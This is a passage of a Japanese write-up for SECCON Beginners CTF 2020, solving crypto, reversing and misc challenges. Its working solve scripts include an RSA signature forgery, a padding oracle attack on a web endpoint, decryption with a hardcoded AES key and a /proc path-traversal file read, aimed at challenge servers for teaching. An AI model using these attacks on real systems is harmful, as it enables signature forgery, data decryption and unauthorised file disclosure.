FLAG = getenv("FLAG").encode()
SEED = getenv("SEED").encode()

L = 256
N = len(FLAG)


def dot(A, B):
    assert len(A) == len(B)
    return sum([a * b for a, b in zip(A, B)])

coeffs = [[getrandbits(L) for _ in range(N)] for _ in range(N)]

seed(SEED)

answers = [dot(coeff, FLAG) + getrandbits(L) for coeff in coeffs]

print(coeffs)
print(answers)
```

最初の `getrandbits(L)` は完全にランダムながらも出力され、次の `getrandbits(L)` ではシードが固定であることに注目します。

固定であってもシードはわかりませんが、2 回出力例を得ればその差分を得ることで `+ getrandbits(L)` の部分を消すことができます。あとは連立一次方程式を解けばフラグが出てくるはずです。スクリプトを書きましょう。

```python
import re
import sympy
from gauss import gauss # https://rosettacode.org/wiki/Gaussian_elimination#Python

# nc (省略) > a.txt
with open('a.txt') as f:
  coeffs1 = eval(f.readline())
  answers1 = eval(f.readline())

# nc (省略) > b.txt
with open('b.txt') as f:
  coeffs2 = eval(f.readline())
  answers2 = eval(f.readline())

L = 256
N = len(answers1)

answers = [x - y for x, y in zip(answers1, answers2)]
coeffs = [[coeffs1[i][j] - coeffs2[i][j] for j in range(N)] for i in range(N)]

A = []
b = []
for coeff, answer in zip(coeffs, answers):
  A.append(coeff)
  b.append([answer])

res = ''
for c in gauss(A, b)[1]:
  res += chr(round(c[0]))

print(''.join(c for c in res if c is not None))
```

```
$ python solve.py
ctf4b{r4nd0m_533d_15_n3c3554ry_f0r_53cur17y}
```

フラグが得られました。

```
ctf4b{r4nd0m_533d_15_n3c3554ry_f0r_53cur17y}
```

## [Crypto 319] RSA Calc (52 solves)
> F(1337)=FLAG!
> 
> nc (省略)
> 
> 添付ファイル: server.py

`server.py` は以下のような内容でした。

```python
from Crypto.Util.number import *
from params import p, q, flag
import binascii
import sys
import signal


N = p * q
e = 65537
d = inverse(e, (p-1)*(q-1))


def input(prompt=''):
    sys.stdout.write(prompt)
    sys.stdout.flush()
    return sys.stdin.buffer.readline().strip()

def menu():
    sys.stdout.write('''----------
1) Sign
2) Exec
3) Exit
''')
    try:
        sys.stdout.write('> ')
        sys.stdout.flush()
        return int(sys.stdin.readline().strip())
    except:
        return 3


def cmd_sign():
    data = input('data> ')
    if len(data) > 256:
        sys.stdout.write('Too long\n')
        return

    if b'F' in data or b'1337' in data:
        sys.stdout.write('Error\n')
        return

    signature = pow(bytes_to_long(data), d, N)
    sys.stdout.write('Signature: {}\n'.format(binascii.hexlify(long_to_bytes(signature)).decode()))

def cmd_exec():
    data = input('data> ')
    signature = int(input('signature> '), 16)

    if signature < 0 or signature >= N:
        sys.stdout.write('Invalid signature\n')
        return

    check = long_to_bytes(pow(signature, e, N))
    if data != check:
        sys.stdout.write('Invalid signature\n')
        return

    chunks = data.split(b',')
    stack = []
    for c in chunks:
        if c == b'+':
            stack.append(stack.pop() + stack.pop())
        elif c == b'-':
            stack.append(stack.pop() - stack.pop())
        elif c == b'*':
            stack.append(stack.pop() * stack.pop())
        elif c == b'/':
            stack.append(stack.pop() / stack.pop())
        elif c == b'F':
            val = stack.pop()
            if val == 1337:
                sys.stdout.write(flag + '\n')
        else:
            stack.append(int(c))

    sys.stdout.write('Answer: {}\n'.format(int(stack.pop())))


def main():
    sys.stdout.write('N: {}\n'.format(N))
    while True:
        try:
            command = menu()
            if command == 1:
                cmd_sign()
            if command == 2:
                cmd_exec()
            elif command == 3:
                break
        except:
            sys.stdout.write('Error\n')
            break


if __name__ == '__main__':
    signal.alarm(60)
    main()
```

`+` `-` `*` `/` `F` の 5 つの命令を持つスタックマシン的なミニ VM のアプリケーションのようです。`1337,F` や　`7,191,*,F` のように `F` が実行されたときにスタックのトップが `1337` であればフラグが表示されるようです。

メニューで `2` を入力すると命令列の実行ができるようですが、その前に署名をする必要があるようです。メニューで `1` を入力すると命令列を署名できますが、`F` や `1337` を含む命令列は拒否されます。

署名には教科書的な RSA 暗号が使われていますから、これを利用しましょう。

```python
import binascii
from decimal import Decimal
from Crypto.Util.number import *
from pwn import *

def sign(data):
  sock.recvuntil('> ')
  sock.sendline('1')
  sock.recvuntil('data>')
  sock.sendline(data)
  sock.recvuntil('Signature: ')
  return sock.recvline().strip()

def execute(data, sig):
  sock.recvuntil('> ')
  sock.sendline('2')
  sock.recvuntil('data>')
  sock.sendline(data)
  sock.recvuntil('signature> ')
  sock.sendline(sig)
  return sock.recvline().strip()

N = 104452494729225554355976515219434250315042721821732083150042629449067462088950256883215876205745135468798595887009776140577366427694442102435040692014432042744950729052688898874640941018896944459642713041721494593008013710266103709315252166260911167655036124762795890569902823253950438711272265515759550956133
ops = b'7,191,*,F'
sock = remote('(省略)', 10001)

sig1 = int(sign(long_to_bytes(int(Decimal(bytes_to_long(ops)) / 2))), 16)
sig2 = int(sign(long_to_bytes(2)), 16)

sig = hex((sig1 * sig2) % N)[2:]
print(execute(ops, sig))

sock.close()
```

```
$ python3 solve.py
b'ctf4b{SIgn_n33ds_P4d&H4sh}'
```

フラグが得られました。

```
ctf4b{SIgn_n33ds_P4d&H4sh}
```

## [Crypto 414] Encrypter (22 solves)
> 暗号化できるサービスを作ってみました！
> 
> http://(省略)/

与えられた URL にアクセスすると、次のようなフォームが表示されました。



Encrypt を選択した状態で、適当な Base64 エンコードされた文字列を入力して Encrypt/Decrypt ボタンを押すと、暗号化されたバイト列が Base64 エンコードされて返ってきました。

今度は Decrypt を選択した状態で、先程出力された暗号化された文字列を投げてみると、`ok. TODO: return the result without the flag` というメッセージが表示されました。内容を適当に変えてみると `bad decrypt` というエラーが表示されたので、どうやらこれは復号の成否だけを教えてくれるようです。

Encrypted flag を選択した状態で Encrypt/Decrypt ボタンを押すと、暗号化されたフラグが返ってきました。

暗号化後のバイト列が 16 バイト単位で増え、`A * 256` を投げても何度も同じバイト列が出現しないあたり、AES-CBC-128 でも使われているのでしょう。復号の成否だけがわかるという点とあわせるとパディングオラクル攻撃を使うのだろうと推測できます。

[ptrlib](https://pypi.org/project/ptrlib/) という大変便利なライブラリには[パディングオラクル攻撃用の API](https://bitbucket.org/ptr-yudai/ptrlib/src/master/ptrlib/crypto/padcbc.py) が用意されています。これを使ってみましょう。

```python
import base64
import json
import requests
from ptrlib.crypto.padcbc import padding_oracle

def decrypt(cipher):
  req = requests.post('http://(省略)/encrypt.php', data=json.dumps({
    'mode': 'decrypt',
    'content': base64.b64encode(cipher).decode()
  }), headers={
    'Content-Type': 'application/json'    
  })
  return 'result' in req.text

payload = base64.b64decode('CA/TNddwz0owdPVwzXp1Xf+M13taV/d4q8rgvZ+DfzbFGLPwiwRuBIFWQU7cPLm/sxy5a71ysmW0cHgtYpyEmg==')
cracked = padding_oracle(decrypt, payload, bs=16, unknown=b'?')
print(cracked)
```

```
$ python3 solve.py
[+] padding_oracle_block: decrypted a byte 1/16: b'\x02'
[+] padding_oracle_block: decrypted a byte 2/16: b'\x02'
[+] padding_oracle_block: decrypted a byte 3/16: b'}'
[+] padding_oracle_block: decrypted a byte 4/16: b'n'
[+] padding_oracle_block: decrypted a byte 5/16: b'0'
[+] padding_oracle_block: decrypted a byte 6/16: b'1'
︙
[+] padding_oracle_block: decrypted a byte 11/16: b'{'
[+] padding_oracle_block: decrypted a byte 12/16: b'b'
[+] padding_oracle_block: decrypted a byte 13/16: b'4'
[+] padding_oracle_block: decrypted a byte 16/16: b'c'
[+] padding_oracle: decrypted a block 4/4: b'ctf4b{p4d0racle_'
b'????????????????ctf4b{p4d0racle_1s_als0_u5eful_f0r_3ncrypt10n}\x02\x02'
```

フラグが得られました。

```
ctf4b{p4d0racle_1s_als0_u5eful_f0r_3ncrypt10n}
```

## [Reversing 62] mask (354 solves)
> The price of mask goes down. So does the point (it's easy)!
> 
> 添付ファイル: mask (x86_64 の ELF)

[Ghidra](https://ghidra-sre.org/) に投げてデコンパイルしてみましょう。

```c
undefined8 main(int iParm1,long lParm2)

{
  int iVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  int local_e0;
  byte local_d8 [64];
  byte local_98 [64];
  byte local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  if (iParm1 == 1) {
    puts("Usage: ./mask [FLAG]");
  }
  else {
    strcpy((char *)local_d8,*(char **)(lParm2 + 8));
    sVar2 = strlen((char *)local_d8);
    iVar1 = (int)sVar2;
    puts("Putting on masks...");
    local_e0 = 0;
    while (local_e0 < iVar1) {
      local_98[(long)local_e0] = local_d8[(long)local_e0] & 0x75;
      local_58[(long)local_e0] = local_d8[(long)local_e0] & 0xeb;
      local_e0 = local_e0 + 1;
    }
    local_98[(long)iVar1] = 0;
    local_58[(long)iVar1] = 0;
    puts((char *)local_98);
    puts((char *)local_58);
    iVar1 = strcmp((char *)local_98,"atd4`qdedtUpetepqeUdaaeUeaqau");
    if ((iVar1 == 0) &&
       (iVar1 = strcmp((char *)local_58,"c`b bk`kj`KbababcaKbacaKiacki"), iVar1 == 0)) {
      puts("Correct! Submit your FLAG.");
    }
    else {
      puts("Wrong FLAG. Try again.");
    }
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

フラグの各文字と 0x75 をビット AND すると `` atd4`qdedtUpetepqeUdaaeUeaqau `` に、0xeb とビット AND すると `` c`b bk`kj`KbababcaKbacaKiacki `` になるようです。

`0x75|0xeb==0xff` でちょうど 8 ビット分カバーできますから、ビット OR で元の文字列が得られるはずです。やってみましょう。

```
$ python3
>>> s = b"atd4`qdedtUpetepqeUdaaeUeaqau"
>>> t = b"c`b bk`kj`KbababcaKbacaKiacki"
>>> bytes(c | d for c, d in zip(s, t))
b'ctf4b{dont_reverse_face_mask}'
```

フラグが得られました。

```
ctf4b{dont_reverse_face_mask}
```

## [Reversing 156] yakisoba (144 solves)
> Would you like to have a yakisoba code?
> 
> (Hint: You'd better automate your analysis)
> 
> 添付ファイル: yakisoba (x86_64 の ELF)

Ghidra に投げてデコンパイルしてみましょう。

```c
undefined8 FUN_00100820(byte *pbParm1)

{
  byte bVar1;
  undefined8 uVar2;
  
  bVar1 = *pbParm1;
  if (bVar1 != 99) {
    if (bVar1 < 100) {
      if (bVar1 == 0x30) {
        return 0xa5;
      }
      if (bVar1 == 0x4b) {
        return 0xc4;
      }
    }
    else {
      if (bVar1 == 0x96) {
        return 0x36;
      }
      if (bVar1 == 0xda) {
        return 0x87;
      }
      if (bVar1 == 0x77) {
        return 0x49;
      }
    }
    return 0x96;
  }
  bVar1 = pbParm1[1];
  if (bVar1 == 0x3e) {
    return 3;
  }
  if (bVar1 < 0x3f) {
    uVar2 = 0x54;
    if ((bVar1 != 5) && (uVar2 = 0x15, bVar1 != 0x3d)) {
      return 0xd1;
    }
  }
  else {
    uVar2 = 0xf;
    if ((bVar1 != 0x9c) && (uVar2 = 0xb8, bVar1 != 0xc9)) {
      if (bVar1 != 0x74) {
        return 0xd1;
      }
      bVar1 = pbParm1[2];
      if (bVar1 == 0x1a) {
        return 0xc0;
      }
      if (bVar1 < 0x1b) {
        if (bVar1 == 0) {
          return 200;
        }
        if (bVar1 == 1) {
          return 0xcc;
        }
      }
      else {
        if (bVar1 == 0x66) {
          bVar1 = pbParm1[3];
︙
      }
      return 0xc;
    }
  }
  return uVar2;
}
```

これぐらいなら人間にでも読めそうです。`pbParm1` (入力文字列) は各文字についてチェックされるのは一度限りですし、例えば以下の 1 文字目の例のように `bVar1 != 99` ならどうあがいても `return` されるパターンでは `99` (`'c'`) 以外が入る余地はありません。

```c
  bVar1 = *pbParm1;
  if (bVar1 != 99) {
    if (bVar1 < 100) {
      if (bVar1 == 0x30) {
        return 0xa5;
      }
      if (bVar1 == 0x4b) {
        return 0xc4;
      }
    }
    else {
      if (bVar1 == 0x96) {
        return 0x36;
      }
      if (bVar1 == 0xda) {
        return 0x87;
      }
      if (bVar1 == 0x77) {
        return 0x49;
      }
    }
    return 0x96;
  }
  bVar1 = pbParm1[1];
```

こういったポイントをおさえて読んでいくと、人力でフラグが得られました。

```
ctf4b{sp4gh3tt1_r1pp3r1n0}
```

## [Reversing 279] ghost (68 solves)
> A program written by a ghost 👻
> 
> 添付ファイル:
> - chall.gs
> - output.txt

`chall.gs` は以下のような内容でした。

```
/flag 64 string def /output 8 string def (%stdin) (r) file flag readline not { (I/O Error\n) print quit } if 0 1 2 index length { 1 index 1 add 3 index 3 index get xor mul 1 463 { 1 index mul 64711 mod } repeat exch pop dup output cvs print ( ) print 128 mod 1 add exch 1 add exch } repeat (\n) print quit
```

PostScript でしょう。実行して色々試してみましょう。

```
$ ghostscript chall.gs 
︙
test
30849 2588 41619 34000 
$ ghostscript chall.gs 
︙
aest
22813 46932 46854 15937 
$ ghostscript chall.gs 
︙
tesp
30849 2588 41619 40953 
```

なるほど、頭から 1 文字ずつブルートフォースしていけばよさそうです。

```python
import string
import subprocess

TARGETS = open('output.txt').read().split(' ')

known = 'ctf4b'
i = len(known)

while True:
  for c in string.printable.strip():
    try:
      output = subprocess.check_output('echo "{}" | ghostscript chall.gs'.format(known + c), shell=True).splitlines()
    except subprocess.CalledProcessError:
      continue
    output = output[3].split(' ')

    if TARGETS[i] == output[i]:
      known += c
      break

  print(known)
  i += 1
```

```
$ python solve.py
/bin/sh: 1: Syntax error: Unterminated quoted string
/bin/sh: 1: Syntax error: Unterminated quoted string
/bin/sh: 1: Syntax error: EOF in backquote substitution
ctf4b{
ctf4b{s
ctf4b{st
︙
ctf4b{st4ck_m4ch1n3_1s_4_l0t_0f_fun!
/bin/sh: 1: Syntax error: Unterminated quoted string
/bin/sh: 1: Syntax error: Unterminated quoted string
/bin/sh: 1: Syntax error: EOF in backquote substitution
ctf4b{st4ck_m4ch1n3_1s_4_l0t_0f_fun!
```

フラグが得られました。

```
ctf4b{st4ck_m4ch1n3_1s_4_l0t_0f_fun!}
```

## [Reversing 363] siblangs (37 solves)
> Well, they look so similar...
> 
> 添付ファイル: siblangs.apk

与えられた apk ファイルを `unzip` で展開します。出てきた `classes.dex` を [dex2jar](https://sourceforge.net/projects/dex2jar/) で jar に変換して読んでみましょう。

`es.o0i.challengeapp/MainApplication.class` をデコンパイルすると以下のようになりました。

```java
package es.o0i.challengeapp;

import android.app.Application;
import android.content.Context;
import com.facebook.react.PackageList;
import com.facebook.react.ReactApplication;
import com.facebook.react.ReactInstanceManager;
import com.facebook.react.ReactNativeHost;
import com.facebook.react.ReactPackage;
import com.facebook.soloader.SoLoader;
import java.util.List;

public class MainApplication extends Application implements ReactApplication {
  private final ReactNativeHost mReactNativeHost = new ReactNativeHost(this) {
      protected String getJSMainModuleName() {
        return "index";
      }
      
      protected List<ReactPackage> getPackages() {
        return (new PackageList(this)).getPackages();
      }
      
      public boolean getUseDeveloperSupport() {
        return false;
      }
    };
  
  private static void initializeFlipper(Context paramContext, ReactInstanceManager paramReactInstanceManager) {}
  
  public ReactNativeHost getReactNativeHost() {
    return this.mReactNativeHost;
  }
  
  public void onCreate() {
    super.onCreate();
    SoLoader.init((Context)this, false);
    initializeFlipper((Context)this, getReactNativeHost().getReactInstanceManager());
  }
}
```

ReactNative が使われているのでしょうか。関連するファイルを探していると、`unzip` で展開したディレクトリの `assets/index.android.bundle` に JavaScript コードがありました。`flag` で検索してヒットした気になる部分を整形して抜き出します。

```javascript
            function v() {
                var t;
                (0, l.default)(this, v);
                for (var o = arguments.length, n = new Array(o), c = 0; c < o; c++) n[c] = arguments[c];
                return (t = y.call.apply(y, [this].concat(n))).state = {
                    flagVal: "ctf4b{",
                    xored: [34, 63, 3, 77, 36, 20, 24, 8, 25, 71, 110, 81, 64, 87, 30, 33, 81, 15, 39, 90, 17, 27]
                }, t.handleFlagChange = function(o) {
                    t.setState({
                        flagVal: o
                    })
                }, t.onPressValidateFirstHalf = function() {
                    if ("ios" === h.Platform.OS) {
                        for (var o = "AKeyFor" + h.Platform.OS + "10.3", l = t.state.flagVal, n = 0; n < t.state.xored.length; n++)
                            if (t.state.xored[n] !== parseInt(l.charCodeAt(n) ^ o.charCodeAt(n % o.length), 10)) return void h.Alert.alert("Validation A Failed", "Try again...");
                        h.Alert.alert("Validation A Succeeded", "Great! Have you checked the other one?")
                    } else h.Alert.alert("Sorry!", "Run this app on iOS to validate! Or you can try the other one :)")
                }, t.onPressValidateLastHalf = function() {
                    "android" === h.Platform.OS ? p.default.validate(t.state.flagVal, function(t) {
                        t ? h.Alert.alert("Validation B Succeeded", "Great! Have you checked the other one?") : h.Alert.alert("Validation B Failed", "Learn once, write anywhere ... anywhere?")
                    }) : h.Alert.alert("Sorry!", "Run this app on Android to validate! Or you can try the other one :)")
                }, t
            }
```

フラグは前半部分 (`onPressValidateFirstHalf`) と後半部分 (`onPressValidateLastHalf`) でそれぞれ別のチェック処理が行われるようです。前半部分から見ていきましょう。

前半部分では `[34, 63, 3, 77, 36, 20, 24, 8, 25, 71, 110, 81, 64, 87, 30, 33, 81, 15, 39, 90, 17, 27]` と `"AKeyFor" + h.Platform.OS + "10.3"` を XOR した文字列と、ユーザが入力した文字列との比較が行われています。このチェックの前に `if ("ios" === h.Platform.OS) {` という条件文がありますから、`h.Platform.OS` に入るのは `ios` でしょう。

```
$ python2
>>> from pwn import *
>>> s = [34,63,3,77,36,20,24,8,25,71,110,81,64,87,30,33,81,15,39,90,17,27]
>>> t = "AKeyFor"+"ios"+"10.3"
>>> xor(s, t)
'ctf4b{jav4_and_j4va5cr'
```

フラグの前半部分が得られました。

続いて後半部分を見ていきます。`p.default.validate` によってユーザ入力の後半部分がチェックされているようですが、これは一体どこから来たのでしょうか。再び `flag` で検索してみると、以下のコードがヒットしました。

```javascript
__d(function(g, r, i, a, m, e, d) {
    var l = r(d[0]);
    m.exports = l.NativeModules.ValidateFlagModule
}, 399, [2]);
```

ネイティブモジュールのようです。該当するものがないか探してみると、`classes.dex` の `es.o0i.challengeapp/nativemodule/ValidateFlagModule.class` が見つかりました。デコンパイルします。

```java
package es.o0i.challengeapp.nativemodule;

import com.facebook.react.bridge.ReactMethod;
import java.security.spec.AlgorithmParameterSpec;
import java.security.Key;
import javax.crypto.spec.GCMParameterSpec;
import javax.crypto.Cipher;
import com.facebook.react.bridge.Callback;
import javax.crypto.spec.SecretKeySpec;
import java.security.SecureRandom;
import javax.crypto.SecretKey;
import com.facebook.react.bridge.ReactApplicationContext;
import com.facebook.react.bridge.ReactContextBaseJavaModule;

public class ValidateFlagModule extends ReactContextBaseJavaModule
{
    private static final int GCM_IV_LENGTH = 12;
    private final ReactApplicationContext reactContext;
    private final SecretKey secretKey;
    private final SecureRandom secureRandom;
    
    public ValidateFlagModule(final ReactApplicationContext reactContext) {
        super(reactContext);
        this.secureRandom = new SecureRandom();
        this.secretKey = new SecretKeySpec("IncrediblySecure".getBytes(), 0, 16, "AES");
        this.reactContext = reactContext;
    }
    
    public String getName() {
        return "ValidateFlagModule";
    }
    
    @ReactMethod
    public void validate(final String s, final Callback callback) {
        final byte[] array2;
        final byte[] array = array2 = new byte[43];
        array2[0] = 95;
        array2[1] = -59;
        array2[2] = -20;
︙
        array2[40] = 94;
        array2[41] = -71;
        array2[42] = 30;
        try {
            final Cipher instance = Cipher.getInstance("AES/GCM/NoPadding");
            instance.init(2, this.secretKey, new GCMParameterSpec(128, array, 0, 12));
            final byte[] doFinal = instance.doFinal(array, 12, array.length - 12);
            final byte[] bytes = s.getBytes();
            for (int i = 0; i < doFinal.length; ++i) {
                if (bytes[i + 22] != doFinal[i]) {
                    callback.invoke(new Object[] { false });
                    return;
                }
            }
            callback.invoke(new Object[] { true });
        }
        catch (Exception ex) {
            callback.invoke(new Object[] { false });
        }
    }
}
```

AES-GCM で復号しているようです。鍵はハードコードされているので復号してみましょう。

```java
import java.util.*;
import java.lang.*;
import java.io.*;
import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.spec.GCMParameterSpec;
import javax.crypto.spec.SecretKeySpec;

class Solve {
    public static void main(String[] args) throws java.lang.Exception {
        SecretKey secretKey = new SecretKeySpec("IncrediblySecure".getBytes(), 0, 16, "AES");
        final byte[] array2;
        final byte[] array = array2 = new byte[43];
        array2[0] = 95;
//︙
        array2[42] = 30;
        final Cipher instance = Cipher.getInstance("AES/GCM/NoPadding");
        instance.init(2, secretKey, new GCMParameterSpec(128, array, 0, 12));
        final byte[] doFinal = instance.doFinal(array, 12, array.length - 12);
        System.out.println(new String(doFinal));
    }
}
```

```
$ javac Solve.java && java Solve
1pt_3verywhere}
```

フラグの後半部分が得られました。

```
ctf4b{jav4_and_j4va5cr1pt_3verywhere}
```

## [Reversing 410] sneay (23 solves)
> Rumor has it that there's a hidden easter egg which can be activated by getting high score in this game......
> 
> 添付ファイル: sneaky (x86_64 の ELF ファイル)

与えられた ELF ファイルを実行すると、以下のようにスネークゲームが始まりました。



`$` をひとつ食べるごとにヘビの体もひとつ伸び、またスコアも 10 点上がります。問題文によれば高いスコアを取ると作動するイースターエッグがあるようです。チートをしましょう。

Ghidra に投げてデコンパイルします。エントリーポイントから追っていきましょう。

```c
void entry(undefined8 uParm1,undefined8 uParm2,undefined8 uParm3)

{
  undefined8 in_stack_00000000;
  
  FUN_0041b9a0(&LAB_00400780,in_stack_00000000,&stack0x00000008,FUN_0041c400,FUN_0041c4a0,uParm3);
  do {
                    /* WARNING: Do nothing block with infinite loop */
  } while( true );
}
```

`FUN_0041b9a0` は `__libc_start_main` でしょう。`LAB_00400780` を見ていきます。

```
undefined8 UndefinedFunction_00400780(void)

{
  undefined8 *puVar1;
  undefined8 *puVar2;
  
  puVar1 = (undefined8 *)FUN_004414a0(0x28,1);
  puVar2 = (undefined8 *)FUN_0043e690(0x10);
  puVar2[1] = 0;
  *puVar2 = 0xb0000000a;
  *(undefined8 **)puVar1 = puVar2;
  puVar1[1] = 10;
  puVar1[2] = 0;
  puVar1[3] = 200000;
  puVar1[4] = 0;
  FUN_00401300(puVar1);
  return 0;
}
```

これが `main` でしょう。`puVar1` はなんらかの構造体でしょう。`puVar1[1]` に 10 が代入されていますが、これは `$` を取得したときに増えるスコアでしょうか。となると、`puVar1[2]` や `puVar1[4]` あたりはスコアの初期値でしょうか。

物は試しということでバイナリエディタでいじってみると、`puVar1[4] = 1234;` のように `puVar1[4]` をいじったときに最初のスコアが変化することを確認できました。`puVar1[4] = 0x06000000;` のように途方もない数値にして実行してみましょう。



フラグが表示されました。

```
ctf4b{still_ez_2_cheat?}
```

## [Misc 50] Welcome (962 solves)
> Welcome to SECCON Beginners CTF 2020!
> 
> フラグはSECCON BeginnersのDiscordサーバーの中にあります。 また、質問の際は ctf4b-bot までDMにてお声がけください。

この CTF の公式 Discord サーバに入ると、`#announcement` というお知らせ用のチャンネルにフラグが書かれたメッセージがありました。

```
ctf4b{sorry, we lost the ownership of our irc channel so we decided to use discord}
```

## [Misc 53] emoemoencode (471 solves)
> Do you know emo-emo-encode?
> 
> 添付ファイル: emoemoencode.txt

以下のようなテキストファイルが与えられました。

```
🍣🍴🍦🌴🍢🍻🍳🍴🍥🍧🍡🍮🌰🍧🍲🍡🍰🍨🍹🍟🍢🍹🍟🍥🍭🌰🌰🌰🌰🌰🌰🍪🍩🍽
```

絵文字のステガノグラフィでしょうか🤔 とりあえず、いくつかの文字のコードポイントをチェックしてみましょう。

```
$ python3
>>> s = open('emoemoencode.txt-2586093c6d0bf61e0babf4d142c2418fb243b188', 'rb').read().decode('utf-8')
>>> hex(ord(s[0]))
'0x1f363'
>>> hex(ord(s[1]))
'0x1f374'
>>> hex(ord(s[2]))
'0x1f366'
```

下位 8 ビットだけを見て ASCII コードとして解釈すると `ctf` になります。なるほど。全ての文字に対してやってみましょう。

```
>>> ''.join(chr(ord(x) & 0xff) for x in s)
'ctf4b{stegan0graphy_by_em000000ji}\n'
```

フラグが得られました。

```
ctf4b{stegan0graphy_by_em000000ji}
```

## [Misc 272] readme (71 solves)
> readme
> 
> nc (省略)
> 
> 添付ファイル: server.py

以下のような Python コードが与えられました。

```python
#!/usr/bin/env python3
import os

assert os.path.isfile('/home/ctf/flag') # readme

if __name__ == '__main__':
    path = input("File: ")
    if not os.path.exists(path):
        exit("[-] File not found")
    if not os.path.isfile(path):
        exit("[-] Not a file")
    if '/' != path[0]:
        exit("[-] Use absolute path")
    if 'ctf' in path:
        exit("[-] Path not allowed")
    try:
        print(open(path, 'r').read())
    except:
        exit("[-] Permission denied")
```

なるほど、フラグは `/home/ctf/flag` にあるようです。パスを入力すると読み込んでくれるようですが、`ctf` が含まれておらず、また絶対パスでなければならないという制約があります。

とりあえず procfs を利用して環境変数を取得してみましょう。

```
$ nc (省略)
File: /proc/self/environ
HOSTNAME=b2a8444bdc32PYTHON_PIP_VERSION=20.1SHLVL=1HOME=/home/ctfGPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421DPYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/1fe530e9e3d800be94e04f6428460fc4fb94f5a9/get-pip.pyPATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binLANG=C.UTF-8PYTHON_VERSION=3.7.7PWD=/home/ctf/serverPYTHON_GET_PIP_SHA256=ce486cddac44e99496a702aa5c06c5028414ef48fdfd5242cd2fe559b13d4348SOCAT_PID=9669SOCAT_PPID=1SOCAT_VERSION=1.7.3.3…
```

`PWD=/home/ctf/server` と、カレントディレクトリが `/home/ctf/server` にあることがわかります。`/proc/self/cwd` がこのディレクトリにシンボリックリンクを張っているはずですから、`/proc/self/cwd/../` で `/home/ctf/` にアクセスできることを期待して試してみましょう。

```
$ nc (省略)
File: /proc/self/cwd/../flag
ctf4b{m4g1c4l_p0w3r_0f_pr0cf5}
```

フラグが得られました。

```
ctf4b{m4g1c4l_p0w3r_0f_pr0cf5}
```